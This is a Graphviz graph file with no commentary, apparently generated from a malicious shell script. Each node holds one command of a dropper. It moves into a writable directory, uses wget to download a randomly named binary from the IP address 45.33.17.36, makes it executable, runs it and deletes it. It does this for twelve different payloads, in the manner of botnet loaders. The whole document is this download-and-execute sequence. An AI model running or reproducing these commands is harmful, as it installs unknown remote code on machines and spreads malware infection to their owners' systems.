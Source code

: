 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://45.33.17.36/wqdfwafgasdasdhg "];
10 -> 12 [label=";,"];
12 [label="chmod +x wqdfwafgasdasdhg "];
12 -> 14 [label=";,"];
14 [label="./wqdfwafgasdasdhg "];
14 -> 16 [label=";,"];
16 [label="rm -rf wqdfwafgasdasdhg "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://45.33.17.36/asdwdasdafawwd2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x asdwdasdafawwd2 "];
30 -> 32 [label=";,"];
32 [label="./asdwdasdafawwd2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf asdwdasdafawwd2 "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://45.33.17.36/hasdasdwasd3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x hasdasdwasd3 "];
48 -> 50 [label=";,"];
50 [label="./hasdasdwasd3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf hasdasdwasd3 "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://45.33.17.36/wlooasdugahs4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x wlooasdugahs4 "];
66 -> 68 [label=";,"];
68 [label="./wlooasdugahs4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf wlooasdugahs4 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://45.33.17.36/hasdwkhansnmas5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x hasdwkhansnmas5 "];
84 -> 86 [label=";,"];
86 [label="./hasdwkhansnmas5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf hasdwkhansnmas5 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://45.33.17.36/ghkqwdwiujnasiudhbasd6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x ghkqwdwiujnasiudhbasd6 "];
102 -> 104 [label=";,"];
104 [label="./ghkqwdwiujnasiudhbasd6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf ghkqwdwiujnasiudhbasd6 "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://45.33.17.36/gasjdniuqbngtinasd7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x gasjdniuqbngtinasd7 "];
120 -> 122 [label=";,"];
122 [label="./gasjdniuqbngtinasd7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf gasjdniuqbngtinasd7 "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://45.33.17.36/kaniupbnpiugnwiunadnsdw8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x kaniupbnpiugnwiunadnsdw8 "];
138 -> 140 [label=";,"];
140 [label="./kaniupbnpiugnwiunadnsdw8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf kaniupbnpiugnwiunadnsdw8 "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://45.33.17.36/nioaunhoiugbnaisnd9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x nioaunhoiugbnaisnd9 "];
156 -> 158 [label=";,"];
158 [label="./nioaunhoiugbnaisnd9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf nioaunhoiugbnaisnd9 "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://45.33.17.36/jnapsiudhbniygnasd10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jnapsiudhbniygnasd10 "];
174 -> 176 [label=";,"];
176 [label="./jnapsiudhbniygnasd10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jnapsiudhbniygnasd10 "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://45.33.17.36/hkmwqionduioasndamsd11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x hkmwqionduioasndamsd11 "];
192 -> 194 [label=";,"];
194 [label="./hkmwqionduioasndamsd11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf hkmwqionduioasndamsd11 "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://45.33.17.36/hweaksnmdiuanpsudnasd12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x hweaksnmdiuanpsudnasd12 "];
210 -> 212 [label=";,"];
212 [label="./hweaksnmdiuanpsudnasd12 "];
212 -> 213 [label=";,"];
}
